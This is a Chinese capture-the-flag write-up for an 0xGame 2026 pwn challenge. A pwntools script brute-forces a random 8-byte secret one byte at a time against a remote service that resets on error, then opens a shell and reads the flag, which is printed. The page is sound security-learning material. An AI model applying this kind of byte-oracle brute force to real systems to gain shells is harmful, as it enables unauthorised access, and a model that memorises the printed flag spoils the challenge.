


# 噫！好！我中啦！

```bash
(sage) scetayh@yuprae-gentoo ~/Projects/0xgame2026-writeups/week2/pwn/7 $ nc nc1.ctfplus.cn 35251
===================================
Welcome to the State Machine Vault!
Input the 8-byte secret, ONE byte at a time.
===================================
Waiting for byte index 0: 
```

有一个长达 8 字节的 secret ，要求每次输入一个字节。尝试一下：

```bash
Waiting for byte index 0: A
 -> Wrong! Progress reset to 0.
Waiting for byte index 0:  -> Wrong! Progress reset to 0.
Waiting for byte index 0: 
```

第一个字节显然不是 `A`（65）。不过我还没来得及在报错后显示的提示符后输入什么东西，便又显示了一次 `Wrong!` ，猜测应该是流里还剩一个 `\n` 。

查看 IDA 反编译结果：



可以看到文件描述符指向 `/dev/urandom` ，从这里获取一个随机 secret 。如果我们有幸依次输入了 8 个正确字节，这样之后还会被要求把刚才的 8 个字节复盘一遍，然后才能拿到 shell 。

经伪代码阅读和远程测试，任何一次错误输入都会把 secret 字节索引倒退回 0 ，也就是说要重头输入前面已经测试出来的正确字节，然后再一个一个猜当前字节是什么。

思路如下：



循环 8 次索引，每次等提示出来后，从 0 到 255 的字节依次尝试，正确则记录正确的字节，进入下一次循环；错误（被迫回退为 0 索引）则先依次发送之前记录的正确字节，再接着上一次的字节继续尝试，直到结束。最后发送完整 secret 。

脚本如下：

```python
from pwn import *

context.log_level = "debug"

io = remote("nc1.ctfplus.cn", 20978)

def sendafterwait(msg):
    io.sendafter(b": ", msg)

secret = []

for index in range(8):
    for byte in range(2 ** 8):
        sendafterwait(bytes([byte]))

        line = io.recvline()
        if b"Correct" in line:
            secret.append(byte)
            break
        else:
            for j in range(index):
                sendafterwait(bytes([secret[j]]))

io.sendafter(b"[!] FINAL VERIFICATION: Please enter the full 8-byte secret to unlock the shell:\n", bytes(secret))

io.interactive()
```

刚运行的时候大概是这个样子：

```bash
(sage) scetayh@yuprae-gentoo ~/Projects/0xgame2026-writeups/week2/pwn/7 $ python3 solve.py 
[+] Opening connection to nc1.ctfplus.cn on port 20978: Done
[DEBUG] Received 0x99 bytes:
    b'===================================\n'
    b'Welcome to the State Machine Vault!\n'
    b'Input the 8-byte secret, ONE byte at a time.\n'
    b'===================================\n'
[DEBUG] Received 0x1a bytes:
    b'Waiting for byte index 0: '
[DEBUG] Sent 0x1 bytes:
    b'\x00'
[DEBUG] Received 0x3a bytes:
    b' -> Wrong! Progress reset to 0.\n'
    b'Waiting for byte index 0: '
[DEBUG] Sent 0x1 bytes:
    b'\x01'
[DEBUG] Received 0x3a bytes:
    b' -> Wrong! Progress reset to 0.\n'
    b'Waiting for byte index 0: '
[DEBUG] Sent 0x1 bytes:
    b'\x02'
[DEBUG] Received 0x3a bytes:
    b' -> Wrong! Progress reset to 0.\n'
    b'Waiting for byte index 0: '
```

过一会儿会测试出 index 0 从而进入 index 1（当然刚进去就被打回 0 了）：

```bash
[DEBUG] Sent 0x1 bytes:
    b'\xe5'
[DEBUG] Received 0x27 bytes:
    b' -> Correct!\n'
    b'Waiting for byte index 1: '
```

最后：

```bash
[DEBUG] Received 0x27 bytes:
    b' -> Correct!\n'
    b'Waiting for byte index 7: '
[DEBUG] Sent 0x1 bytes:
    b'\xe8'
[DEBUG] Received 0x7b bytes:
    b' -> Correct!\n'
    b'\n'
    b'[!] State machine bypassed.\n'
    b'[!] FINAL VERIFICATION: Please enter the full 8-byte secret to unlock the shell:\n'
[DEBUG] Sent 0x8 bytes:
    00000000  e5 ef 06 4f  b5 9c 52 e8                            │···O│··R·│
    00000008
[*] Switching to interactive mode
[DEBUG] Received 0x29 bytes:
    b'\n'
    b'[+] Access Granted! Here is your shell:\n'

[+] Access Granted! Here is your shell:
$ 
```

然后拿到 flag ：

```bash
ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x9 bytes:
    b'flag\n'
    b'pwn\n'
flag
pwn
$ cat flag
[DEBUG] Sent 0x9 bytes:
    b'cat flag\n'
[DEBUG] Received 0x2d bytes:
    b'0xGame{d953b666-f167-4a7d-9b2c-75ff2ee84b78}\n'
0xGame{d953b666-f167-4a7d-9b2c-75ff2ee84b78}
[*] Got EOF while reading in interactive
$  
```

所以 flag 就是 `0xGame{d953b666-f167-4a7d-9b2c-75ff2ee84b78}` 。